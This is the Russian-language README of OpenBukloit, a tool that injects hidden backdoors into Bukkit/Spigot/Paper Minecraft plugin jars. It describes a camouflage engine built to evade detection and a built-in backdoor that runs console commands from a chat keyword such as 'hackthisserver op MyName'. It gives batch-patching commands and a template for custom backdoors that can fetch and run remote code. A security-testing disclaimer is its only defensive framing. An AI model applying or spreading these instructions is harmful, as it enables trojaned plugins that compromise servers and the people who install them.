 <div align="center"><h1>OpenBukloit - Инжектор бекдоров для Minecraft плагинов</h1></div>

<div align="center"><img alt="Logo" src="../logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-СКАЧАТЬ_ПОСЛЕДНИЙ_РЕЛИЗ_(КЛИК)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Языки: [English](../README.md), [Русский](README_RU.md), [Українська](README_UA.md)**

**OpenBukloit** — современный и мощный универсальный инжектор бекдоров, совместимый со всеми Bukkit/Spigot/Paper/и т.д. плагинами. Его особенностью является возможность интеграции с абсолютно любым плагином без необходимости каждый раз модифицировать бекдор. Более того, он обеспечивает мощный движок камуфляжа, что делает практически невозможным его поиск без достаточных знаний или продвинутых автоматизированных инструментов. OpenBukloit был разработан для тестирования систем безопасности серверов Minecraft, Команда VoxelHax не несет ответственности за его неправомерное использование.

Это продолжение проекта **[Bukloit](https://github.com/Rikonardo/Bukloit)**, в котором мы учли все проблемы предыдущего проекта и использовали совершенно другой подход к разработке.

## Возможности OpenBukloit
- **Полная поддержка Bukkit и его форков на любой версии Minecraft.**
- **Поддержка пользовательских бекдоров.**
- **Автоматическая загрузка JDK, поэтому вам не нужно заботиться о совместимости версии Java.**
- **Мощный камуфляжный движок, усложняющий поиск бекдора в плагине.**

## Установка
Для использования OpenBukloit у вас должна быть установлена любая версия Java (но не ниже 8). Jar-файл OpenBukloit можно загрузить с [вкладки релизов](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit не требует никаких дополнительных действий, просто поместите файл jar куда-нибудь и используйте его из командной строки.

## Использование
Чтобы запустить OpenBukloit, откройте командную строку в каталоге, где находится jar-файл OpenBukloit и введите:

```sh
java -jar OpenBukloit.jar
```

После имени файла jar вы можете передать некоторые аргументы для настройки инжектора:

| Короткий аргумент | Длинный аргумент | Описание                                                                                                                                                                                         | Тип      |
|-------------------|------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------|
| -e                | --exploit        | Путь к пользовательскому скомпилированному файлу .class или к файлу исходного кода .java, который будет использоваться в качестве бекдора.<br />**По умолчанию используется встроенный бекдор.** | Значение |
| -m                | --mode           | Режим. Может быть одиночным/множественным.<br />**По умолчанию: <ins>multiple</ins>.**<br />В множественном режиме изменяет все файлы в указанной папке. В одиночном - только указанный файл.    | Значение |
| -i                | --input          | Путь к входной папке/файлу (зависит от режима).<br />**По умолчанию: <ins>in</ins> (<ins>in.jar</ins> если режим одиночный).**                                                                   | Значение |
| -o                | --output         | Путь к выходной папке/файлу (зависит от режима).<br />**По умолчанию: <ins>out</ins> (<ins>out.jar</ins> если режим одиночный).**                                                                | Значение |
| -r                | --replace        | Заменять выходной файл, если он уже существует.                                                                                                                                                  | Флаг     |

Но этих аргументов недостаточно для запуска OpenBukloit. Вы также должны указать параметры бекдора. Поскольку OpenBukloit поддерживает внедрение пользовательских бекдоров, вы должны передать дополнительные аргументы, которые требуются для используемого бекдора.

## Встроенный эксплоит

По умолчанию OpenBukloit внедряет встроенный бекдор. Это простой бекдор, который позволяет вам выполнять любые команды из консоли, написав специальное ключевое слово перед командой в чате.

Параметры встроенного бекдора:

| Длинный аргумент | Описание                                                   |
|------------------|------------------------------------------------------------|
| --key            | Ключевое слово, запускающее выполнение консольной команды. |

Использование в игре ключа, установленного на "hackthisserver":

```
hackthisserver op MyName
```

Это сообщение, отправленное в чат, будет выполнено как консольная команда и даст ОП игроку MyName.

**Вот несколько примеров использования OpenBukloit со встроенным бекдором:**

1. Пропатчить все .jar файлы с ключом "#console" из папки "in" и сохранить их в папку "out" без замены.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Пропатчить все файлы с ключом "hacktheserver" из папки "in" и сохранить их в папку "out" с заменой.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Пропатчить один файл "PluginName.jar" с ключом "#console" и сохраните его как файл "Output.jar" с заменой.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

## Написание пользовательского эксплоита

Вы также можете написать свой собственный бекдор. Это должен быть класс с методом `public static void inject(JavaPlugin args)` (JavaPlugin из Bukkit API).

Вот простой пример:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

Метод `inject` будет выполнен после метода `onEnable` плагина. Вы можете делать здесь все, что хотите, включая загрузку и запуск произвольного кода из Интернета.

Но вы должны знать, что есть некоторые ограничения:
- В настоящее время вы не можете использовать вложенные классы, в файле эксплоита должен быть только один класс.
- Вы не должны ссылаться на свой класс эксплоита внутри него, например, использовать его как параметры метода, как возвращаемое значение или как тип поля.

Вы можете использовать внешние параметры из командной строки, используя %плейсхолдеры%, они будут подставлены в процессе инжекта:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

Затем вы можете заинжектить бекдор с помощью команды:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Обратите внимание, что мы можем передать наш бекдор в OpenBukloit без компиляции, и он автоматически скомпилирует его с наличием API Spigot в пуле классов во время компиляции.
